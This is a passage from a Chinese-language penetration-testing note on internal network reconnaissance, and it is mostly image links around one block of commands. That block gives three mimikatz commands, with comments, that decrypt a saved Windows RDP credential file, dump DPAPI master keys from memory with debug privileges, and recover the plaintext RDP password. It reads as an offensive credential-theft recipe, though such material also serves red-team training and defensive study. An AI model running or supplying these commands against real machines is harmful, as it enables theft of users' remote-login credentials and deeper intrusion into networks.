 ![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%209.png)

利用`mimikatz`导出指定的`RDP`连接凭据，执行以下命令：

```powershell
mimikatz.exe "privilege::debug" "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit    # 使用mimikatz解析指定的连接凭据, pbData就是凭据的加密数据, guidMasterKey是该凭据的GUID, 记录guidMasterKey的值
 
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit   # 找到与guidMasterKey(GUID)相关联的MasterKey, 这个MasterKey是加密凭据所使用的密钥
 
mimikatz.exe "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D/masterkey:a5587e7ce36a2ba6d7df33402d4ddcfaaa96fcbd7eb5fe37aafdd3ca0d24e2c62069be8bcce6075240f538fe060f74902d1ef2b2a99612185a4eeb923a2330dc" exit # 使用找到的MasterKey破解指定的凭据文件DFBE70A7E5CC19A398EBF1B96859CE5D, 获得RDP明文凭据
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%2010.png)
